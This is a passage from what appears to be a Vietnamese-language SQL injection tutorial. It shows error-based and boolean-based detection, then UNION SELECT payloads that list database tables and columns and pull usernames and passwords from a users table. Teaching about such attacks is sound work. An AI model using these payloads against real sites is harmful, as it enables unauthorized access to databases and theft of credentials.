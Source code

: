 **Error-based Discovery:**
```
https://vulnerable-site.com/product?id=1'
```

Nếu website trả về lỗi kiểu:
```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version...
```

Chúc mừng! Bạn vừa tự "tố" mình rằng website vulnerable với SQL injection.

**Boolean-based Discovery:**
```
https://vulnerable-site.com/product?id=1 AND 1=1  // Trang load bình thường
https://vulnerable-site.com/product?id=1 AND 1=2  // Trang bị lỗi hoặc không load
```

### **Information Gathering**

Một khi xác định được injection point, hacker sẽ thu thập thông tin về database:

**Database Version:**
```sql
' UNION SELECT VERSION()--
```

**Table Names:**
```sql
' UNION SELECT table_name FROM information_schema.tables--
```

**Column Names:**
```sql
' UNION SELECT column_name FROM information_schema.columns WHERE table_name='users'--
```

### **Data Extraction**

Đây là lúc mọi thứ trở nên nghiêm trọng:
```sql
' UNION SELECT username, password FROM users--
```

## Các Loại SQL Injection: "Gia Đình Nhà Sqli"

### **In-band SQL Injection**
*"Loại thẳng thắn, không che giấu"*

**Error-based:**
Lỗi database được hiển thị trực tiếp trên webpage. Giống như việc bạn la hét "TÔI ĐANG BỊ HACK" trên speaker.

```sql
-- Input: ' OR 1=1 UNION SELECT null,@@version,null--
-- Error: Duplicate column name 'version 5.7.29-log'
```
